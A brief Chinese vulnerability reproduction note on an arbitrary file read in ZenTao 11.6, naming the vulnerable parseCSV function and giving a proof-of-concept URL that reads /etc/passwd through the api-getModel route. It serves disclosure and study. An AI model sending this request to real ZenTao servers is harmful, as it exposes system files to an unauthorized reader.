 禅道 11.6 任意文件读取
======================

一、漏洞简介
------------

禅道项目管理软件是一款国产的，基于LGPL协议，开源免费的项目管理软件，它集产品管理、项目管理、测试管理于一体，同时还包含了事务管理、组织管理等诸多功能，是中小型企业项目管理的首选，基于自主的PHP开发框架──ZenTaoPHP而成，第三方开发者或企业可非常方便的开发插件或者进行定制。
厂商官网：<https://www.zentao.net/>
而此次发现的漏洞正是ZenTaoPHP框架中的通用代码所造成的的，因此禅道几乎所有的项目都受此漏洞影响

二、漏洞影响
------------

禅道 11.6

禅道开源版 9版本

三、复现过程
------------

漏洞代码位于module/file/model.php中的parseCSV函数

![](./resource/禅道11.6任意文件读取/media/rId25.png)

这里通过上面的思路同样可以对fileName进行赋值，最终返回读取的文件数据
漏洞poc为：

    http://www.0-sec.org/zentaopms_11.6/www/api-getModel-file-parseCSV-fileName=/etc/passwd

image
